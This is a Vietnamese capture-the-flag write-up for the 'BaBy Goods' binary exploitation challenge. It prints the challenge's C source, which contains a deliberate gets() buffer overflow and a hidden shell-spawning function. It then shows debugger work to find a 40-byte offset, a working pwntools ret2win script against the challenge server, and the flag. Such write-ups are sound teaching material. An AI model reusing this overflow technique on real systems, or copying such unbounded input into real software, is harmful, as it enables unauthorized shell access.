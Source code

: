 # <center>BaBy Goods</center>
- Challenge cho ta 2 file gồm một file thực thi là ```babygoods``` và 1 file code **C** ```babygoods.c```
### Source code
```c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

char username[0x20];

int menu(char name[0x20]);

int sub_15210123() {
    execve("/bin/sh", 0, 0);
}

int buildpram() {
    char buf[0x10];
    char size[4];
    int num;

    printf("\nChoose the size of the pram (1-5): ");
    fgets(size,4,stdin);
    size[strcspn(size, "\r\n")] = '\0';
    num = atoi(size);
    if (1 > num || 5 < num) {
        printf("\nInvalid size!\n");
        return 0;
    }

    printf("\nYour pram has been created! Give it a name: ");
    //buffer overflow! user can pop shell directly from here
    gets(buf);
    printf("\nNew pram %s of size %s has been created!\n", buf, size);
    return 0;
}

int exitshop() {
    puts("\nThank you for visiting babygoods!\n");
    exit(0);
}

int menu(char name[0x20]) {
    char input[4];
    do {
        printf("\nHello %s!\n", name);
        printf("Welcome to babygoods, where we provide the best custom baby goods!\nWhat would you like to do today?\n");
        printf("1: Build new pram\n");
        printf("2: Exit\n");
        printf("Input: ");
        fgets(input, 4, stdin);
        input[strcspn(input, "\r\n")] = '\0';
        switch (atoi(input))
        {
        case 1:
            buildpram();
            break;
        default:
            printf("\nInvalid input!\n==========\n");
            menu(name);
        }
    } while (atoi(input) != 2);
    exitshop();
}

int main() {
        setbuf(stdin, 0);
        setbuf(stdout, 0);

    printf("Enter your name: ");
    fgets(username,0x20,stdin);
    username[strcspn(username, "\r\n")] = '\0';
    menu(username);
    return 0;
}
```
- Nhìn vào mã nguồn ta thấy lỗi rất rõ ở hàm ```buildpram()``` ở hàm ```gets(buf)``` cho phép nhận đầu vào không giới hạn dẫn đến lỗi ```Buffer Overflow``` cho phép ghi đè vào các bộ đệm lân cận. Xem các biện pháp bảo vệ của chương trình
```shellcode
gef➤  checksec
[+] checksec for '/home/s4ngxg/ctf/grey2024/distribution/babygoods'
Canary                        : ✘
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
```
- ```Canary``` không được bật nên ta có thể khai thác lỗi ```Buffer Overflow```, ta thấy hàm ```sub_15210123()``` gọi shell trên hệ thống. Mục tiêu bây giờ là gì đè địa chỉ của hàm ```sub_15210123()``` vào địa chỉ trả về của hàm ```buildpram()```
- Debug để tìm các địa chỉ trả về của hàm ```buildpram()``` và địa chỉ bắt đầu của hàm ```sub_15210123()```
![image](https://hackmd.io/_uploads/B10akIqf0.png)
- Địa chỉ hàm ```sub_15210123()``` là ```0x401236```
![image](https://hackmd.io/_uploads/B1FybL5G0.png)
- Ta thấy sau khi gọi hàm ```buildpram()``` thì tới lệnh tiếp theo ở địa chỉ ```0x0000000000401404```, đó chính là địa chỉ trả về của hàm ```buildpram()```
- Đặt breakpoint ngay lệnh ```gets()``` và lệnh ```ret``` trong hàm  ```buildpram()``` để tìm địa chỉ trong stack và từ đó tìm được ofset
![image](https://hackmd.io/_uploads/H16o485M0.png)
Địa chỉ của biến ```buf``` trong stack là ```0x00007fffffffdfb0```
- ![image](https://hackmd.io/_uploads/SkH0VUqMC.png)
Địa chỉ của lệnh trả về trong stack là ```0x00007fffffffdfd8```
- Ofset là ```0x00007fffffffdfd8 - 0x00007fffffffdfb0 = 40 byte```

### Script
```python
from pwn import *

sub_address = 0x401236

p = remote('challs.nusgreyhats.org', 32345)

p.sendlineafter('name: ', b'S4nGxG')
p.sendlineafter('Input: ', b'1')
p.sendlineafter('(1-5): ', b'5')

payload = b'A'*40
payload += p64(sub_address)

p.sendlineafter('name: ', payload)

p.interactive()
```
> ##### *grey{4s_34sy_4s_t4k1ng_c4ndy_fr4m_4_b4by}*
